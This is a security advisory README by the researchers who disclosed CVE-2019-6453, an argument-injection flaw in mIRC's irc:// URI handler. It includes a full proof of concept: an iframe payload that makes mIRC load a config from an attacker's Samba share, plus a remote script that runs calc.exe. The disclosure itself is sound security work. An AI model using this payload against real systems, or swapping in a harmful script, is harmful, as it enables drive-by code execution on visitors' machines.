 # CVE-2019-6453: RCE on mIRC <7.55 using argument injection through custom URI protocol handlers 

\[[Link to the write-up](https://proofofcalc.com/cve-2019-6453-mIRC/)\]


We found a **Remote Code Execution vulnerability** in mIRC through the
**irc://** URI protocol handler. Because mIRC doesn't use any kind of sigil such
as **--** to mark the end of the argument list, an attacker is able to pass
arguments to mIRC through a **irc://** link and execute arbitrary code by
loading a custom **mirc.ini** from an attacker-controlled Samba file server.
Please note that **ircs://** works the same way.

## PoC

The proof of calc requires three files: **mirc.ini**, **calc.ini** and
**poc.html**. We assume a Samba file server is running on the attacker's side.
For the sake of the example, the following pieces of code assume it is running
on host **127.0.0.1** (*i.e. replace **127.0.0.1** by your own server's address
in the following files to try this out*).

### mirc.ini

**mirc.ini** is a custom configuration file that should be located at
**C:\mirc-poc\mirc.ini** on the file server.

```conf
[rfiles]
n2=\\127.0.0.1\C$\mirc-poc\calc.ini
```

### calc.ini

**calc.ini** is a remote script file that should be located at
**C:\mirc-poc\calc.ini** on the file server.

```conf
[script]
n0=on *:START: {
n1=  /run calc.exe
n2=}
```

### poc.html

Just visiting **poc.html** should work assuming mIRC is set as the default
handler for the **irc://** URI scheme and the browser does not encode the
payload. Depending on the browser and your configuration, you might still get
a prompt (*not the case on Firefox*).


```html
<iframe src='irc://? -i\\127.0.0.1\C$\mirc-poc\mirc.ini' />
```

## PoC gif

![PoC gif](rce-poc.gif)

## Affected versions

This PoC runs for mIRC <7.55.

You can trigger the PoC on Edge 42.17134 (*last preview version*) and Firefox
64.0.2 (*last release*).
It doesn't work on Chrome because the way Chrome handle URI protocols (*URI is
encoded before being passed to the application*).

## Authors

- Baptiste Devigne ([Geluchat](https://twitter.com/Geluchat)) and Benjamin Chetioui ([SIben](https://twitter.com/_SIben_))
